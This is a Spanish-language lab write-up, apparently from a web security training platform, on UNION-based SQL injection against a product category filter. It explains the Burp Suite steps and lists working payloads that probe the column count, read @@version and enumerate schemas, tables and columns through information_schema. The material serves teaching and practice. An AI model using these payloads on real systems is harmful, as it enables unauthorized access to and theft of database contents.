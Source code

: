 La vulnerabilidad está en el filtro de categoría de productos. Al interceptar la solicitud y modificar el parámetro ‘category’, podemos inyectar una consulta adicional que devuelva el valor del sistema.

El proceso consiste en:

- Interceptar la solicitud con Burp Suite y probar distintas combinaciones hasta determinar el número de columnas que devuelve la consulta y cuáles aceptan texto. En este caso, son dos columnas de texto.
- Una vez identificadas, se usa la función ‘**@@version**‘, propia de MySQL y SQL Server, para extraer información del motor y su versión.
- El símbolo ‘**#**‘ se utiliza como comentario para anular el resto de la consulta original.

Esta técnica demuestra cómo, con una inyección bien construida, es posible reconocer el entorno sin necesidad de credenciales o acceso especial.

**Quédate con esto**: Conocer el motor de base de datos desde fuera es el primer paso para afinar futuras inyecciones y adaptar payloads según el sistema objetivo.

------

+ Primero debemos de buscar el total de columnas existentes que nos muestra la Web
    + ' order by 10-- -
    + ' order by 5-- -
    + ' order by 2-- -
    + ' union select 1,2-- -
    + ' union select  'hola','markos'-- -
    + ' union select  @@version-- -
    + ' union select  1,schema_name from information_schema.schemata-- - (bases de datos)
    + ' union select  1,table_name from information_schema.tables where table_schema='DB'-- - (tablas de la base de datos)
    + ' union select  1,column_name from information_schema.columns where table_schema='DB' and table_name='TABLE'-- -
    + ' union select  1,column_name from information_schema.columns where table_schema='0xFFF' and table_name='0xAAA'-- - (Hex)
    + Pets' union select 1,group_concat(id,0x3a,category) from academy_labs.products-- -
    + Pets' union select 1,group_concat(id,':',category) from academy_labs.products-- -
    + ' union select NULL,table_name from information_schema.tables-- - (enumerar todas las tablas del gestor de BD)

